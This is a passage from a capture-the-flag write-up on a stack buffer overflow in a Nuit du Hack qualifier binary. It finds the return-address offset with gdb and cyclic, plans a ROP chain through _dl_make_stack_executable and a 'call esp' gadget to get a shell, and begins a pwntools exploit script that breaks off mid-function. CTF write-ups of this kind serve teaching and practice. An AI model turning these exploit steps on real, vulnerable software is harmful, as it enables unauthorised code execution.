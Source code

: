 yes :) We are dealing with a classic stack based buffer overflow. Now let's
find the offset of the return address. I launched the program in the debugger
and used the `cyclic` tool of `binjitsu` to generate a pattern, which we can
look up later to determine the offset to the return address.

```
gdb-peda$ ! rm ./fifo; mkfifo ./fifo
gdb-peda$ r ./fifo
Starting program: ./pwn ./fifo
The file has been saved successfully

Program received signal SIGSEGV, Segmentation fault.

[...]
gdb-peda$ print $eip
$3 = (void (*)()) 0x61687062
```

and in another terminal

```
$ cyclic -c i386 4600 > ./fifo
$ cyclic -c i386 -l 0x61687062
4124
```

Now let's create a working exploit. Let's see if the binary contains something
interesting we can jump to:

```
[0x08048d2a]> afl~system
[0x08048d2a]> afl~exec
0x0809e580  88    6     sym._dl_make_stack_executable
0x080bc800  315   18    sym.execute_cfa_program
0x080bd940  100   3     sym.execute_stack_op
```

OK so apparently because the program doesn't use any of the system or exec
functions, the linker threw them away. No luck there. But this
`_dl_make_stack_executable` functions seems useful. A quick search revealed the
following blog post on the radare blog:
[Defeating baby_rop with radare2](http://radare.today/posts/defeating-baby_rop-with-radare2/)

The setting is basically the same. Statically linked binary with no interesting
functions in the binary. We could ROP our way to the `execve` syscall manually,
but that seems tedious. I adapted the exploit from the blog post.

 1. call `_dl_make_stack_executable`
 2. jump to payload with `call esp` gadget.
 3. get shell

Here is the final exploit

```python
#!/usr/bin/env python

from pwn import *  # NOQA
import subprocess

context.log_level = 'debug'
context.arch = 'i386'

vbin = "./pwn"
s = None


def connect():
    global s
    s = ssh(host="securefilereader.quals.nuitduhack.com",
```